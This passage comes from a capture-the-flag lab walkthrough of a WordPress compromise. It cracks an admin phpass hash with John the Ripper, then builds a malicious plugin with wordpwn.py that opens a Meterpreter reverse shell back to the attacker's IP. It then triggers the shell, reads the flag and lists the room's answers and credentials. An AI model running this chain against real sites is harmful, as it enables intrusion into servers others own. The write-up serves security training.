   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #########################################################################
--------------------------------------------------
 HASH: $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

**Hash type:** WordPress phpass (`$P$` prefix) — MD5-based WordPress hash. This is a very weak password hash format, especially in older WordPress versions.

### 6.2 — Crack with John the Ripper

Save the hash to a file and crack it with `rockyou.txt`:

```bash
nano hash.txt
```

> [!warning] Bash Special Characters
> The `$P$` prefix contains `$` characters, which are special in bash. When echoing hashes into files, be careful with quoting. Using `nano` or `gedit` to paste the hash directly avoids bash interpretation issues.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
teddybear        (?)     
1g 0:00:00:00 DONE (2026-09-08 08:04) 16.66g/s 12800p/s 12800c/s 12800C/s jeffrey..james1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

**Cracked password:**

```
teddybear
```

> [!tip] WordPress phpass Hash
> WordPress MD5/phpass (`$P$`) is a very weak hash format. Common passwords like `teddybear` are cracked almost instantly with `rockyou.txt`. You can use either **John the Ripper** or **Hashcat** for this. Older WordPress versions use particularly weak hashing, making them trivial to crack.

---

## Phase 7: Admin Access & Malicious Plugin Upload

### 7.1 — The Lateral Movement Strategy

> [!important] Methodology Recap — How We Got Here
> This is the methodology used in modern-day pentesting:
> 1. **XXE gave us read access** — we could read any file
> 2. **We read `wp-config.php`** — more valuable than `/etc/passwd` because it contains database credentials in plain text
> 3. **We logged into MySQL remotely** — luckily remote access was enabled (not always the case in real world)
> 4. **We extracted user password hashes** from the database
> 5. **We cracked the admin hash** — got plaintext password
> 6. **Now we log in as WordPress admin** — user ID 1 = admin
> 7. **Upload a malicious plugin for RCE** — this completes the initial access goal
>
> The key insight: you need to find ways to **enumerate and move laterally**. Read access → find credentials → access new services → extract more data → escalate privileges.

### 7.2 — Login as WordPress Admin

Since user ID 1 (`corp-001`) is the administrator:

```
URL:      http://10.113.140.145/wp-login.php
Username: corp-001
Password: teddybear
```


✅ Logged in as administrator with full dashboard access — users, tools, settings, and crucially, **plugin management**.

### 7.3 — Generate a Malicious WordPress Plugin

Search for a malicious plugin tool:

```
wordpress malicious plugin github
```


Found: https://github.com/wetw0rk/malicious-wordpress-plugin

Download the `wordpwn.py` tool. Usage:

```
root@wetw0rk:~# python wordpwn.py
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

Generate the malicious plugin:

```bash
python wordpwn.py 192.168.129.117 4444 Y
```

- **LHOST:** Attacker's Kali IP (where the reverse shell connects back)
- **LPORT:** 4444
- **Handler (Y):** Automatically launches a Metasploit `php/meterpreter/reverse_tcp` handler

> [!note] Handler Option
> Setting Handler to `Y` means the script will automatically start a Metasploit Meterpreter listener. If you want a plain Netcat reverse shell instead, you'd need to modify the exploit. For simplicity, using the built-in Meterpreter handler is easier. You could also use Netcat — this is Meterpreter's reverse TCP, so we need a Meterpreter-compatible listener.


Full output:

```
└─# python wordpwn.py 192.168.129.117 4444 Y 

[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating webshell payload
[+] Writing plugin script to file
[+] Generating payload To file
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1512 (iteration=0)
php/base64 chosen with final size 1512
Payload size: 1512 bytes

[+] Writing files to zip
[+] Cleaning up files
[+] URL to upload the plugin: http://(target)/wp-admin/plugin-install.php?tab=upload
[+] How to trigger the reverse shell : 
      ->   http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
      ->   http://(target)/wp-content/plugins/malicious/QwertyRocks.php
      ->   http://(target)/wp-content/plugins/malicious/SWebTheme.php?cmd=ls
[+] Launching handler
Metasploit tip: Add routes to pivot through a compromised host using route 
add <subnet> <session_id>
       =[ metasploit v6.5.3-dev                                 ]
+ -- --=[ 2,684 exploits - 1,352 auxiliary - 2,604 payloads     ]
+ -- --=[ 436 post - 57 encoders - 14 nops - 12 evasion         ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

[*] Processing wordpress.rc for ERB directives.
resource (wordpress.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (wordpress.rc)> set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
resource (wordpress.rc)> set LHOST 192.168.129.117
LHOST => 192.168.129.117
resource (wordpress.rc)> set LPORT 4444
LPORT => 4444
resource (wordpress.rc)> exploit
[*] Started reverse TCP handler on 192.168.129.117:4444 
```

**Generated files:**

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls                            
malicious.zip wordpress.rc  wordpwn.py
```

The tool creates:
- **`malicious.zip`** — the malicious WordPress plugin package
- **`wordpress.rc`** — Metasploit resource script for the handler

> [!warning] Port Conflicts
> If port 4444 is already in use (e.g., from the earlier PHP server for XXE), you'll get an "Address is already in use" error. Kill the previous process or use a different port.

### 7.4 — Upload & Activate the Malicious Plugin

1. In WordPress admin, go to **Plugins → Add New → Upload Plugin**
2. Upload `malicious.zip`
3. **Install** and then **Activate** the plugin


### 7.5 — Trigger the Reverse Shell

The tool provides three trigger URLs:

```
[+] How to trigger the reverse shell : 
      ->   http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
      ->   http://(target)/wp-content/plugins/malicious/QwertyRocks.php
      ->   http://(target)/wp-content/plugins/malicious/SWebTheme.php?cmd=ls
```

Navigate to the trigger URL with the actual target IP:

```
http://10.114.130.167/wp-content/plugins/malicious/wetw0rk_maybe.php
```

The Metasploit handler receives the connection:

```
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.129.117:4444 
```

✅ Meterpreter session established!

> [!important] This is NOT a CVE — It's Functionality Misuse
> Uploading a malicious plugin is **not a vulnerability** — it's legitimate WordPress functionality. The plugin system is designed to allow admins to upload PHP code. An attacker with admin credentials simply misuses this feature to execute arbitrary PHP on the server. This is why:
> - Admin credentials must be strongly protected
> - Plugin uploads should be restricted where possible
> - File integrity monitoring should be in place

---

## Phase 8: Post-Exploitation — Capturing the Flag

### 8.1 — Drop into a System Shell

From the Meterpreter session, spawn a system shell:

```
shell
```

### 8.2 — Navigate to the Flag

```bash
cd /home
ls -al

cd stux
ls -al

cd flag
ls -al

cat flag.txt
```

> [!note] Flag Hunting Strategy
> Common flag locations: `/var/www/html/` (web root), `/home/<user>/`, `/root/`, `/tmp/`. In this case the flag was **not** in the web root — it was in `/home/stux/flag/flag.txt`. Always check user home directories.

**Flag:**

```
thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}
```

---

## Room Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | What is the name of the database for WordPress? | `wordpressdb2` |
| 2 | What are the credentials you found? (user:password) | `thedarktangent:sUp3rS3cret132` |
| 3 | What is the DBMS installed on the server? | `mysql` |
| 4 | What is the DBMS version? | `5.7.33` |
| 5 | What port is the DBMS running on? | `3306` |
| 6 | Encrypted password for user ID 1? | `$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1` |
| 7 | Password in plain text? | `teddybear` |
| 8 | Compromise the machine and locate flag.txt | `thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}` |

---

## Attack Chain Summary



---

## Lessons Learned

> [!important] Key Takeaways
> 1. **XXE ≠ Dead End** — Even "just" a file read vulnerability can be chained to full RCE by reading config files containing credentials
> 2. **wp-config.php is gold** — Always read this file when you have arbitrary file read on a WordPress site; it contains DB credentials in plaintext. It's more valuable than `/etc/passwd` for immediate exploitation
> 3. **Credential reuse / lateral movement** — Database credentials from config files → remote DB access → user password hashes → cracking → admin login. Each step opens a new door
> 4. **Weak hashes fall fast** — WordPress phpass (`$P$`) with `rockyou.txt` is cracked in under a second. Older WordPress = weaker hash algorithms
> 5. **Admin = Game Over** — WordPress admin can upload arbitrary PHP via the plugin system. This is by-design functionality, not a bug — but an attacker misuses it for RCE
> 6. **SearchSploit has limits** — For specific WordPress version CVEs, GitHub and Google are often more reliable than `searchsploit`. MSFconsole is also not great for version-specific WordPress searching
> 7. **Troubleshooting is normal** — SSL errors (`--skip-ssl`), port conflicts, wrong directories for file permissions — real pentesting involves solving these road bumps
> 8. **Know your target technology** — Knowing WordPress file structure (`wp-config.php`, `wp-login.php`, `wp-content/uploads/`, table prefix in `$table_prefix`) is essential knowledge for exploiting it effectively
> 9. **Methodology for modern pentesting** — Enumerate → find public software → check version → search exploits → exploit → chain findings → escalate. This exact pattern applies to OSCP, eWPTX, eCPPT, CRTP, and real-world engagements
> 10. **If it's not RCE, apply your brain** — Not every exploit gives you RCE directly. You need to think creatively about how to chain a lower-impact finding (like file read) into full system compromise
